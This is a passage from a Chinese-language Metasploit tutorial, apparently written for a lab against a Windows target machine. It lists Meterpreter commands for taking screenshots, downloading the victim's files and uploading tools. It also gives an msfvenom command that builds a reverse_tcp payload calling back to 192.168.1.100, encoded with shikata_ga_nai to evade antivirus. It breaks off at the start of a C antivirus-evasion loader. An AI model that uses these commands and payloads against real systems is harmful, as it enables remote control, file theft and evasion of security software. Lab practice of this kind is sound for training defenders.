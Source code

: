 # 查看会话
sessions -l

# 进入会话
sessions -i 1

# 查看靶机信息
sysinfo

# 查看当前用户
getuid

# 下载靶机文件
download C:\\Users\\Test\\Documents\\test.txt /root/

# 上传文件
upload /root/tool.exe C:\\Users\\Test\\Desktop\\tool.exe

# 截屏
screenshot

# 退出
exit
</code></pre>
<hr>
<h2>6. 终端 1（攻击机 Kali）——免杀版本生成</h2>
<p>为了避免杀软拦截，我们可以用编码器：</p>
<pre><code class="language-bash">msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.100 LPORT=5555 -e x86/shikata_ga_nai -i 5 -f exe -o evasion_payload.exe
</code></pre>
<p>参数变化：</p>
<ul>
<li>
<p><code inline="">-e x86/shikata_ga_nai</code> 选择编码器（多态混淆）。</p>
</li>
<li>
<p><code inline="">-i 5</code> 编码 5 次（增加变化，可能提高免杀率）。</p>
</li>
<li>
<p><code inline="">LPORT</code> 换成新端口 5555（避免冲突）。</p>
</li>
</ul>
<p><strong>注意</strong>：现代杀软对 <code inline="">shikata_ga_nai</code> 已有很强检测能力，真实免杀需结合自定义加载器（C/C++/Go 等），或反射式加载（Reflective DLL Injection）。</p>
<hr>
<h2>7. 终端 4（攻击机 Kali）——免杀加载器示例（原理演示）</h2>
<p>下面是一个 C 语言加载器原理示例（伪代码，实际需嵌入 shellcode）：</p>
<pre><code class="language-c">#include &lt;windows.h&gt;
